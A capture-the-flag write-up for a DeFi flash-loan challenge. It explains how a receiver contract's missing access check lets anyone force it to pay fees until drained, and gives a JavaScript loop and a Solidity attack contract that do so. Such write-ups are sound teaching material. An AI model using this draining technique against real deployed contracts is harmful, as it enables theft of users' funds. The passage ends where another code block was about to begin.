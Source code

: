 We got two smart contracts:
- `NaiveReceiverLenderPool.sol`: Provides flash loans at a 1 ETH fixed fee.
- `FlashLoanReceiver.sol`: The contract that gets the flash loan and needs to repay it + the 1 ETH fee.

So what's the vulnerability?

FlashLoanReceiver disregards the first parameter in its `onFlashLoan` function, letting ANYONE initiate flash loans.
This becomes an Access Control issue, allowing us to use it to execute multiple flash loans.

### Option 1: Solve with 10 Transactions

Initiate 10 flash loans on behalf of FlashLoanReceiver, each taking 1 ETH fee.
Use the provided code in `naive-receiver.challenge.js`:

```javascript
const ETH = await pool.ETH();
for(let i = 0; i < 10; i++){
    await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
}
```

### Option 2: Solve with Only 1 Transaction

Deploy a malicious contract, `AttackNaiveReceiver.sol`, that requests 10 flash loans on behalf of FlashLoanReceiver.

Here is the malicious smart contract code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IPool{
     function flashLoan(address receiver, address token, uint256 amount, bytes calldata data) external returns (bool);
}

contract AttackNaiveReceiver {

    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    constructor(address _pool, address _victim) {

        for(uint256 i=0; i < 10; i++){
            IPool(_pool).flashLoan(_victim, ETH, 0, "0x");
        }
    }

}

```

And here's the code for `naive-receiver.challenge.js`:
